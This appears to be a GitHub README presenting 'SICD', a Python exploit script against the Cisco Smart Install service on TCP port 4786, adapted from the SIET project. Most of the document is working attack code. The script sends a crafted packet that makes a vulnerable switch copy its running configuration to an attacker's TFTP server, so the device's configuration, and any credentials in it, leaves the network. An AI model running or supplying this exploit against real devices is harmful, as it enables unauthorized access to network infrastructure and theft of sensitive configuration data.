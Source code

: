 # SICD
Cisco Smart Install Exploit

Cisco Smart Install is accessible through TCP port 4786 and is vulnerable to attack.  The vendor advisory can be read here

https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20170214-smi

Existing exploits, e.g. Sab0tag3d SIET, have been published to exploit this vulnerability.

https://github.com/Sab0tag3d/SIET

This exploit (SICD - Smart Install Config Dumper) was adapted from the work of Sab0tag3d specifically for obtaining the running config from a vulnerable Cisco device.

```python
#!/usr/bin/python
# Smart Install Config Dumper

import socket
import time

# Vulnerable Cisco device
victim_ip = '10.1.2.3'
# IP of your TFTP server
attack_ip = '192.168.2.200'

conn = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
conn.settimeout(5)
try:
   conn.connect((victim_ip, 4786))

   c1 = 'copy system:running-config flash:/config.text'
   c2 = 'copy flash:/config.text tftp://' + attack_ip + '/' + victim_ip + '.conf'
   c3 = ''
   sTcp = '0' * 7 + '1' + '0' * 7 + '1' + '0' * 7 + '800000' + '40800010014' + '0' * 7 + '10' + '0' * 7 + 'fc994737866' + '0' * 7 + '0303f4'
   sTcp = sTcp + c1.encode('hex') + '00' * (336 - len(c1))
   sTcp = sTcp + c2.encode('hex') + '00' * (336 - len(c2))
   sTcp = sTcp + c3.encode('hex') + '00' * (336 - len(c3))

   print('[INFO]: Sending config dumper request to %s ' % victim_ip)
   conn.send(sTcp.decode('hex'))
   conn.close()
   print('[INFO]: Waiting 30 seconds for TFTP upload completion')
   time.sleep(30)

except socket.error, exc:
   print "Socket error : %s" % exc
```
